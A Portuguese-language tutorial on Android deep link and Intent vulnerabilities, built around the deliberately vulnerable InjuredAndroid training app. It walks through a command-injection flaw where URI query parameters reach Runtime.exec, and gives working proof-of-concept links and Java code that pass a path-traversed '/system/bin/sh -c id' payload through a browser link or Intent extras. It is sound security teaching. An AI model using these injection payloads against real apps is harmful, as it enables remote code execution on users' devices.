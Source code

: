 # Pequenas ligações, grandes vulnerabilidades: Uma breve introdução a deep links Android.

## AndroidManifest.xml

Esse artigo tem como objetivo introduzir as vulnerabilidades que ocorrem no Android por meio do abuso de Intents. Tentarei ser o mais introdutório possível e listarei todas as referências necessárias, caso algum conceito pareça muito avançado. Será utilizado o aplicativo [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) como exemplo de *apk* vulnerável. 541v3 pros companheiros da [@duphouse](https://www.instagram.com/duphouse/), sem eles esse texto não seria possível.

Recomendo a [série de vídeos](https://www.youtube.com/watch?v=4eso_7RyZ58) do Maycon Vitali sobre Android no geral, assim como [a minha talk](https://www.youtube.com/watch?v=WFUEbMFx2EQ) na DupCon com vulnerabilidades reais. Existe também o [@thatmobileproject](https://www.instagram.com/thatmobileproject/) para posts sobre segurança em mobile.

## intent://

Os [Intents](https://developer.android.com/guide/components/intents-filters) funcionam como a principal forma dos aplicativos se comunicarem internamente entre si. Por exemplo, se um aplicativo quer abrir o [InjuredAndroid](https://github.com/B3nac/InjuredAndroid) ele pode iniciar-lo por meio de um Intent utilizando a [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) `flag13://rce`.

```java
Intent intent = new Intent();
intent.setData(Uri.parse("flag13://rce"));
startActivity(intent);
```

Além de aceitar todos os elementos de uma [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier) ( scheme, host, path, query, fragment ), um Intent também pode levar dados [fortemente tipados](https://pt.wikipedia.org/wiki/Linguagem_tipada) por meio dos [Intent Extras](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Bundle)). Na prática, *queries* e *extras* são as formas mais comuns de passar dados entre os aplicativos, eles serão discutidos com exemplos mais adiante.


## < intent-filter >

Como o Android sabe qual aplicativo se refere `flag13://rce`? O InjuredAndroid define um [Intent Filter](https://developer.android.com/guide/components/intents-filters#Resolution) que diz quais tipos de Intent o Sistema Operacional deve enviar para ele. O Intent Filter é definido no [AndroidManifest.xml](https://developer.android.com/guide/topics/manifest/manifest-intro).

Vamos analizar a definição do Intent Filter relacionado a `flag13://rce` : https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/AndroidManifest.xml

```xml
<activity
	android:name=".RCEActivity"
	android:label="@string/title_activity_rce"
	android:theme="@style/AppTheme.NoActionBar">
	<intent-filter android:label="filter_view_flag11">
		<action android:name="android.intent.action.VIEW" />
		<category android:name="android.intent.category.DEFAULT" />
		<category android:name="android.intent.category.BROWSABLE" />
		<!-- Accepts URIs that begin with "flag13://” -->
        <data
			android:host="rce"
			android:scheme="flag13" />
	</intent-filter>
</activity>
```

O atributo `name` define qual [Activity](https://developer.android.com/reference/android/app/Activity) será inicializada, como ele começa com ponto, o nome é resolvido para `package`+`.RCEActivity` = `b3nac.injuredandroid.RCEActivity`. Dentro do `<intent-filter>`, o `action` se refere ao [tipo de ação](https://developer.android.com/reference/android/content/Intent#intent-structure) que será executada, existem uma miríade de tipos de ações que são definidas na classe Intent, porém, na maioria das vezes é utilizado o `action` padrão `android.intent.action.VIEW`.

`category` são propriedades extras que definem como o Intent vai se comportar. `android.intent.category.DEFAULT` define que essa Activity pode ser inicializada mesmo se o Intent não tiver nenhum `category`. `android.intent.category.BROWSABLE` dita que a Activity pode ser inicializada pelo browser, isso é super importante pois transforma qualquer ataque em remoto. Digamos que um usuário entre em um site malicioso, esse site consegue inicializar um Intent que abre o App apenas se o Intent Filter tiver a propriedade `BROWSABLE`.

A *tag* [`data`](https://developer.android.com/guide/topics/manifest/data-element) especifica quais URLs vão corresponder com esse Intent Filter, no nosso caso, o `scheme` tem que ser `flag13` e o `host` igual a `rce`, ficando `flag13://rce`. Todas as partes da URI podem ser definidas, como *path*, *port*, etc. 


## flag13://rce

Agora que entedemos como Intents e Intents Filters funcionam, vamos procurar alguma vulnerabilidade no `flag13://rce` (O "rce" ficou meio óbvio né).

O código-fonte da Activity `b3nac.injuredandroid.RCEActivity` : https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/java/b3nac/injuredandroid/RCEActivity.kt

```kotlin
49 if (intent != null && intent.data != null) {
50     copyAssets()
51     val data = intent.data
52     try {
53         val intentParam = data!!.getQueryParameter("binary")
54         val binaryParam = data.getQueryParameter("param")
55         val combinedParam = data.getQueryParameter("combined")
56         if (combinedParam != null) {
57             childRef.addListenerForSingleValueEvent(object : ValueEventListener {
58                 override fun onDataChange(dataSnapshot: DataSnapshot) {
59                     val value = dataSnapshot.value as String?
60                     if (combinedParam == value) {
61                         FlagsOverview.flagThirteenButtonColor = true
62                         val secure = SecureSharedPrefs()
63                         secure.editBoolean(applicationContext, "flagThirteenButtonColor", true)
64                         correctFlag()
65                     } else {
66                         Toast.makeText(this@RCEActivity, "Try again! :D",
67                                 Toast.LENGTH_SHORT).show()
68                     }
69                 }
70
71                 override fun onCancelled(databaseError: DatabaseError) {
72                     Log.e(TAG, "onCancelled", databaseError.toException())
73                 }
74             })
75         }
```

A Activity é inicializada na função `onCreate` e é lá que o Intent será devidamente tratado. Na linha [49](https://github.com/B3nac/InjuredAndroid/blob/master/InjuredAndroid/app/src/main/java/b3nac/injuredandroid/RCEActivity.kt#L49) o aplicativo checa se `intent` é nulo, se não for ele irá pegar algumas *queries* `binary`, `param` e `combined`. Se `combined` for nulo ele não entrará no `if` da linha 56 e irá para o seguinte `else`:

```kotlin
76 else {
77
78     val process = Runtime.getRuntime().exec(filesDir.parent + "/files/" + intentParam + " " + binaryParam)
79     val bufferedReader = BufferedReader(
80             InputStreamReader(process.inputStream))
81     val log = StringBuilder()
82     bufferedReader.forEachLine {
83         log.append(it)
84     }
85     process.waitFor()
86     val tv = findViewById<TextView>(R.id.RCEView)
87     tv.text = log.toString()
88 }
```

Na linha 78 é passado para a função `Runtime.getRuntime().exec()` as variáveis `intentParam` e `binaryParam`, essa função executa comandos no sistema, logo temos um [Command Injection](https://owasp.org/www-community/attacks/Command_Injection) através do Intent. Vamos tentar explora-lo!

Normalmente, num Command Injection tentaríamos passar algum carácter para executar outro commando, como `&`/`|`/`;`, porém se tentarmos desse jeito o Android irá dar um erro na primeira parte do comando, o `filesDir.parent + "/files/"`, pois não encontrará o arquivo, ou dará erro de permissão e não executará o resto do nosso *payload*. Para resolvermos esse problema podemos voltar os diretórios com `../` até chegarmos no diretório *root*, a partir dai podemos executar o `/system/bin/sh` e executar qualquer comando que quisermos.

Nossa PoC terá os seguintes passos :

1. Alvo clica num link malicioso
2. Browser abre um Intent para `b3nac.injuredandroid.RCEActivity`
3. A Activity `RCEActivity` executa o comando do atacante

`index.html`
```html
<a href="flag13://rce?binary=..%2F..%2F..%2F..%2F..%2Fsystem%2Fbin%2Fsh%20-c%20%27id%27&param=1">pwn me</a>
```

*Deixo de tarefa de casa exfiltrar o resultado do comando, ou abrir uma reverse shell no Android*

## S.Intent_Extras

Agora digamos que ao invés de receber as variáveis via *query*, o App as recebesse via Intent Extras, como fazer? Para criar um Intent com Extras apenas usamos a função [putExtra](https://developer.android.com/reference/android/content/Intent#putExtra(java.lang.String,%20android.os.Parcelable)).

```java
Intent intent = new Intent();
intent.setData(Uri.parse("flag13://rce"));
intent.putExtra("binary","../../../../../system/bin/sh -c 'id'");
intent.putExtra("param","1");
startActivity(intent);
```

Ok, com isso conseguimos passar Intents Extras por meio de outro App, mas e pelo Browser? Nós podemos utilizar o scheme [`intent://`](https://developer.chrome.com/docs/multidevice/android/intents/) para isso! O Intent de cima fica assim :

```html
<a href="intent://rce/#Intent;scheme=flag13;S.binary=..%2F..%2F..%2F..%2F..%2Fsystem%2Fbin%2Fsh%20-c%20%27id%27;S.param=1;end">pwn me</a>
```

Primeiro vem o scheme `intent://`, depois o host `rce` e logo após a string `#Intent`, que é obrigatória. A partir dai todas as variáveis são delimitadas por `;`. Passamos o `scheme=flag13` e definimos os Extras, o nome do Extra é precedido do tipo dele, como o Extra `binary` é do tipo String ele é definido com `S.binary`. Os Extras podem ter vários tipos, como a documentação do scheme `intent://` é escarso, o melhor jeito é ler o código fonte do Android que faz o parse dele:  https://cs.android.com/android/platform/superproject/+/master:frameworks/base/core/java/android/content/Intent.java;l=7115;drc=master

```java
if      (uri.startsWith("S.", i)) b.putString(key, value);
else if (uri.startsWith("B.", i)) b.putBoolean(key, Boolean.parseBoolean(value));
else if (uri.startsWith("b.", i)) b.putByte(key, Byte.parseByte(value));
else if (uri.startsWith("c.", i)) b.putChar(key, value.charAt(0));
else if (uri.startsWith("d.", i)) b.putDouble(key, Double.parseDouble(value));
else if (uri.startsWith("f.", i)) b.putFloat(key, Float.parseFloat(value));
else if (uri.startsWith("i.", i)) b.putInt(key, Integer.parseInt(value));
else if (uri.startsWith("l.", i)) b.putLong(key, Long.parseLong(value));
else if (uri.startsWith("s.", i)) b.putShort(key, Short.parseShort(value));
else throw new URISyntaxException(uri, "unknown EXTRA type", i);
```


Por fim só colocar um `end` (:


## ;end

Podem existir vários tipos de vulnerabilidades oriundas dos Intents, RCE/SQLi/XSS até Buffer Overflow, vai depender só da criatividade do desenvolvedor. Para estudar esse assunto mais a fundo, recomendo a leitura do blog do [@bagipro_](https://twitter.com/_bagipro) https://blog.oversecured.com/ e dos reports públicos de Bug Bounty https://github.com/B3nac/Android-Reports-and-Resources . Além do [InjuredAndroid]((https://github.com/B3nac/InjuredAndroid)) também podem brincar com o [Ovaa](https://github.com/oversecured/ovaa). |-|4ck th3 |>l4n3t  
